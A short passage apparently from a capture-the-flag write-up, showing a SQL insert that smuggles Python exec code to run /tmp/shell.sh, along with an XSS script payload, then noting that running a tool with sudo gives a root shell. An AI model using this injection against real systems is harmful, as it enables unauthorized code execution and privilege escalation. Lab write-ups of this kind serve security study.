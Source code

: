 ```sql
insert into escalate values ("abc","abc","abc",'hello=exec("""\nimport os\nos.system("/tmp/shell.sh")\nprint("&ErrMsg=%3Cimg%20src=%22http://htb.com%22%20/%3E%3CSCRIPT%3Ealert%28%22xss%22%29%3C/SCRIPT%3E")""")');
```

Then, we can run the security using sudo and receive a root shell.

<figure><img src="../../../.gitbook/assets/image (2682).png" alt=""><figcaption></figcaption></figure>
